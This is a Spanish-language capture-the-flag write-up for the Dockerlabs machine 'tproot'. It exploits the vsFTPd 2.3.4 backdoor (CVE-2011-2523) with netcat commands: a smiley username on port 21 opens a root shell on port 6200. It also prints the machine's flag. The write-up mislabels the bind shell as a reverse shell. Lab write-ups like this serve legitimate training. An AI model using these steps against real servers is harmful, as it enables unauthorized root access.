





---

## 🛡️ Reporte Técnico: Dockerslab - tproot

**IP del Objetivo:** `172.17.0.2`

**Dificultad:** Muy Fácil 

**Fecha:** 15 de enero, 2026

### 1. Fase de Enumeración

ya tenemos la IP por lo que empezamos con un nmap 

- **Puertos abiertos:**
    
    - `21/tcp`: FTP
        
    - `80/tcp`: HTTP
        
    
me encontre con dos puertos abiertos, por un lado el FTP en puerto21 y tambien el HTTP en el 80
el puerto FTP suele estar abierto a usuario anonymous sin contraseña asi que intento ingresar 

no nos permite entrar pero nos recuerda la versión, la cual tiene una vulnerabilidad que te permite pasar solo con una sonrisa

### 2. Análisis de Vulnerabilidad

El servicio **vsFTPd 2.3.4** es conocido por contener una puerta trasera (backdoor) en su código fuente original (CVE-2011-2523). Esta vulnerabilidad se activa cuando un usuario introduce una secuencia de caracteres específica (`:)`) en el nombre de usuario.

### 3. Explotación (Gaining Access)

Uso el **Método Manual** para evitar ruidos innecesarios en la red:

1. **Activación:** Conexión vía Netcat al puerto 21 enviando la cadena mágica.
	- `nc 172.17.0.2 21`
    - `USER hacker:)`
    - `PASS 1234`
        
2. **Ejecución:** El backdoor levantó un servicio de escucha en el puerto **6200/TCP**.
    
3. **Conexión:** Se estableció una shell reversa conectando al puerto 6200.
    
    - Comando: `nc -vn 172.17.0.2 6200`
        

### 4. Post-Explotación y Escalada

Al acceder a través del puerto 6200, la sesión se estableció directamente con privilegios de **root** (`uid=0`), por lo que no fue necesaria una escalada de privilegios adicional.

> [!SUCCESS]- Flag encontrada 
 >
 
Haz clic para ver la flag
  `261fd3f32200f950f231816b4e9a0594` 

ya solo por ver corrí un gobuster sobre el puerto 80 para ver si había ahí algún camino alternativo para acceder pero me encontré con un Rabbit Hole no encontré nada ni en el código de la pagina ni en gobuster por lo que di por terminada la maquina

